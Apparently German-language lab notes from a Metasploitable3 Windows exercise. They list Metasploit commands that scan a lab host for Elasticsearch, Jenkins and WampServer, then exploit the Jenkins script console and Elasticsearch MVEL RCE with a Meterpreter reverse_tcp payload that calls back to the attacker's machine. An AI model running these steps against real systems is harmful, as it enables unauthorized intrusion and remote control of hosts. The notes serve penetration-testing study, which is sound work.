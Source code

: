 > ip a
Kali LHOST: (Angreifer)   192.168.0.19

> ipconfig
W2KB RHOST: (Verteidiger) 192.168.0.24

# Anleitung: https://www.youtube.com/watch?v=4HOGfSQEYuE

> msfconsole

> msfdb init

> nvim msf.md  		(File für Output von Schwachstellen)

> workspace -a msp3win

> workspace



> db_nmap 192.168.0.24 -p 8585, 8484	 (Defender)

> use auxiliary/scanner/http/http_version

> options

> setg RHOST (rhost)

> setg RHOSTS (rhost)

> set RPORT 9200

> run

> set RPORT 8484 (wegen [chaty]/tomcat (für javae))

> run

> set RPORT 8585

> run


-- Defender IP in Addressleiste in Google eingeben + Port 9200 = Elasticsearch output
-- -"- + Port 8484 = Jenkins
-- -"- + Port 8585 = WampServer (auf phpinfo kann man zugreifen)


> search jenkins
> use auxiliary/scanner/http/jenkins_enum
> options
> set targeturi /
> set rport 8484
> run


-- metersploit wird von Besessenen geschrieben


> search jenkins
> grep exploit search jenkins
> use exploit/multi/http/jenkins_script_console
> options
> set rport 8484
> set targeturi /
> info 					(looking into expoloiting stuff)
> set payload windows/meterpreter/reverse_tcp
> set lhost (Angreifer)
> set lport 5555
> exploit
> ...?
> unse exploit/multi/elasticsearch/script_mvel_rce
> set lport 9999
> exploit